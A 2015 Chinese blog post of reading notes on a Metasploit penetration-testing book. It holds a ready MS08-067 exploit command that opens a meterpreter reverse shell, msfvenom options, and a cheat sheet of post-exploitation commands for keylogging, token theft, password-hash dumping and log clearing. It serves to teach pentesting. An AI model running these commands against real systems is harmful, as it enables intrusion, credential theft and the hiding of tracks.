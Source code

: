 ```yaml
---
layout: post
title: 读《Metasploit渗透测试指南》
category: old_blog
tags: hack
keywords: metasploit
description:
---
```


> 本文写于 2015.12.22

这几天看《 Metasploit 渗透测试指南》，有些内容好像已经过时了。用户接口讲了三种： MSF 终端，MSF 命令行和 Armitage，而从今年的六月份开始，Msfcli 就与我们说再见了，同时，可以通过 Msfconsole 使用 -x 选项来取代 Msfcli 。

举个例子，在一条命令中使用 MS08_067 模块。
```
msfconsole -x "use exploit/windows/smb/ms08_067_netapi; set RHOST [IP]; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST [IP]; run"
```
也可以分步写或者做成脚本来简化输入：
```
use exploit/windows/smb/ms08_067_netapi  
set RHOST [IP]  
set PAYLOAD windows/meterpreter/reverse_tcp  
set LHOST [IP]  
run
```
然后运行它：
```
msfconsole -r name_of_resource_script.rc
```
如果你已经运行了 msfconsole ，就输入下面的：
```
msf > resource name_of_resource_script.rc
```
另外， msfpayload 和 msfencode 也退休了， msfvenom 是它们的继承者，如果对新工具还不熟悉，可以使用 -h 选项来获得帮助。
```
-p, --payload    <payload>       Payload to use. Specify a '-' or stdin to use custom payloads  
-l, --list       [module_type]   List a module type example: payloads, encoders, nops, all  
-n, --nopsled    <length>        Prepend a nopsled of [length] size on to the payload  
-f, --format     <format>        Output format (use --help-formats for a list)  
-e, --encoder    [encoder]       The encoder to use  
-a, --arch       <architecture>  The architecture to use  
    --platform   <platform>      The platform of the payload  
-s, --space      <length>        The maximum size of the resulting payload  
-b, --bad-chars  <list>          The list of characters to avoid example: '\x00\xff'  
-i, --iterations <count>         The number of times to encode the payload  
-c, --add-code   <path>          Specify an additional win32 shellcode file to include  
-x, --template   <path>          Specify a custom executable file to use as a template  
-k, --keep                       Preserve the template behavior and inject the payload as a new thread  
    --payload-options            List the payload's standard options  
-o, --out   <path>               Save the payload  
-v, --var-name <name>            Specify a custom variable name to use for certain output formats  
-h, --help                       Show this message  
    --help-formats               List available formats
```

参考文章：
- [Weekly Metasploit Wrapup](https://community.rapid7.com/community/metasploit/blog/2015/01/23/weekly-metasploit-wrapup)
- [Msfcli is no longer available in Metasploit](https://community.rapid7.com/community/metasploit/blog/2015/07/10/msfcli-is-no-longer-available-in-metasploit)
- [Good-bye msfpayload and msfencode](https://community.rapid7.com/community/metasploit/blog/2014/12/09/good-bye-msfpayload-and-msfencode)
- [MsfPayload and MsfEncode are being removed from Metasploit](https://community.rapid7.com/community/metasploit/blog/2015/06/08/msfpayload-and-msfencode-are-being-removed-from-metasploit)


## Metasploit 常用命令列表
#### MSF 终端命令
show exploits （列出所有渗透攻击模块
show payloads （列出所有攻击载荷
show auxiliary （列出所有辅助攻击模块
search names （查找所有的渗透攻击和其他模块
info （展示出制定渗透攻击或模块的相关信息
use name （装载一个渗透攻击或者模块
LHOST （本地可以让目标主机连接的IP地址，通常当目标主机不在同一个局域网时，就需要时一个公共的IP地址，特别为反弹式shell使用。
RHOST （远程主机或者目标主机
set function （设置特定的配置参数
setg function （以全局方式设置特定的配置参数
show options （列出某个渗透攻击或模块中所有的配置参数
show targets （列出渗透攻击所支持的目标平台
set target num （指定你所知道的目标的操作系统以及补丁版本类型
set payload payload （指定想要使用的攻击载荷
show advanced （列出所有高级配置选项
set autorunscript migrate -f （在渗透攻击完成后，将自动迁移到另一个进程
check （检测目标是否对选定渗透攻击存在相应安全漏洞
exploit （执行渗透攻击或模块来攻击目标
exploit -j （在计划任务下进行渗透攻击，攻击在后台进行
exploit -z （渗透攻击成功后不与会话进行交互
exploit -e encoder （制定使用的攻击载荷编码方式
exploit -h （列出帮助信息
sessions -l （列出可用的交互会话，在处理多个shell时使用
sessions -l -v （列出所有可用的交互会话以及会话详细信息
sessions -s script （在所有活跃的会话中运行一个特定的脚本
sessions -K （杀死所有活跃的交互会话
sessions -c cmd （在所有活跃的会话上执行一个命令
sessions -u sessionID （升级一个普通的win32 shell到meterpreter shell
db_create name （创建一个数据库驱动攻击所要使用的数据库
db_connect name （创建并连接一个数据库驱动攻击所要使用的数据库
db_nmap （利用nmap并把扫描数据存储到数据库中
db_autopwn -h （帮助信息
db_autopwn -p -r -e （对所有发现的开放端口执行db_autopwn，攻击所有系统，并使用一个反弹式shell
db_destroy （删除当前数据库
db_destroy user:password@host:port/database （使用高级选项来删除数据库

#### Meterpreter命令
help （帮助
run scriptname （运行脚本
sysinfo （列出受控主机的系统信息
ls （列出目标主机的文件和文件夹信息
use priv （加载特权提升扩展模块
ps （显示所有运行进程以及关联的用户账户
migrate PID （迁移到一个指定的进程ID
use incognito （加载incognito功能，用来盗窃目标主机的令牌或是假冒用户
list_tokens -u （列出目标主机用户的可用令牌
list_tokens -g （列出目标主机用户组的可用令牌
impersonate_token DOMAIN_NAME\USERNAME （假冒目标主机上的可用令牌
steal_token PID （盗窃给定进程的可用令牌并进行令牌假冒
drop_taken （停止假冒当前令牌
getsystem （通过各种攻击向量来提升到系统用户权限
shell （以所有可用令牌来运行一个交互的shell
execute -f cmd.exe -i （执行cmd.exe命令并进行交互
execute -f cmd.exe -i -t （以所有可用令牌来执行cmd命令
execute -f cmd.exe -i -H -t （以所有可用令牌来执行cmd命令并隐藏该进程
rev2self （回到控制目标主机的初始用户账户下
reg command （在目标主机注册表中进行交互，创建，删除，查询等操作
setdesktop number （切换到另一个用户界面
screenshot （对目标主机屏幕进行截图
upload file （向目标主机上传文件
download file （从目标主机下载文件
keyscan_start （针对远程目标主机开启键盘记录功能
keyscan_dump （存储目标主机上捕获的键盘记录
keyscan_stop （停止针对目标主机的键盘记录
getprivs （尽可能多的获取目标主机上的特权
uictl enable keyboard/mouse （接管目标主机的键盘和鼠标
background （将当前的shell转为后台执行
hashdump （导出目标主机中的口令哈希值
use sniffer （加载嗅探模块
sniffer_interfaces （列出目标主机所有开放的网络接口
sniffer_dump interfaceID pcapname （在目标主机上启动嗅探
sniffer_start interfaceID packet-buffer （在目标主机上针对特定范围的数据包缓冲区启动嗅探
sniffer_starts interfaceID （获取正在实施嗅探网络接口的统计数据
sniffer_stop interfaceID （停止嗅探
add_user username password -h ip （在远程目标主机上添加一个用户
add_group_user “Domain Admins” username -h ip （将用户添加到目标主机的域管理员组中
clearev （清除目标主机上的日志记录
timestomp （修改文件属性
reboot （重启目标主机
